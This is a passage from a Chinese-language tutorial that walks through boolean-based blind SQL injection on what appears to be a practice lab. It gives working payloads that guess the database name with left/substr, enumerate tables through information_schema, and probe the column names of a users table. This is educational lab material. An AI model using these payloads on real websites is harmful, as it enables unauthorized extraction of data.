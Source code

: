 可以利用`left`函数：`left(a,b)`从左侧截取a的前b位

也可以利用`substr`函数：`substr(a,b,c)`从b位置开始，截取字符串a的c长度，如`substr(database(),1,1)='s'`

用二分法猜测：`?id=1' and left(database(),1)>'m'%23`

![image-20211207095729907](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055457.png)

继续猜测：`id=1' and left(database(),1)>'t'%23`

![image-20211207095821561](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055479.png)

`id=1' and left(database(),1)>'q'%23`

![image-20211207100010542](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055997.png)

`id=1' and left(database(),1)>'r'%23`，最后试出来**数据库第一位是`s`**,然后可以依次试下去，**可以通过burp suite的爆破模块自动爆破**。

![image-20211207100054320](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055825.png)

最后的到数据库为：security



##### 猜测数据库中的数据表

`id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)>'a'%23`

改变`limit`函数和`substr`的索引值可以继续往后猜测：

猜测数据表的第二位字符：`substr(**,2,1)`

猜测第二个数据表：`limit 1,1`（`limit 0,1`：从第0个开始，获取第一个）

最后获得表为users



##### 获取users表中的数据

猜测`users`表中是否存在`us**`的列：

```
id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]'  limit 0,1 )%23
```

正常回显，说明存在：

![image-20211207102712715](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055920.png)

猜测是否存在`username`列：

```
id=1' and 1=(select 1 from information_schema.columns where table_name='users'  and column_name regexp '^username'  limit 0,1 )%23
```

正常回显，说明存在：
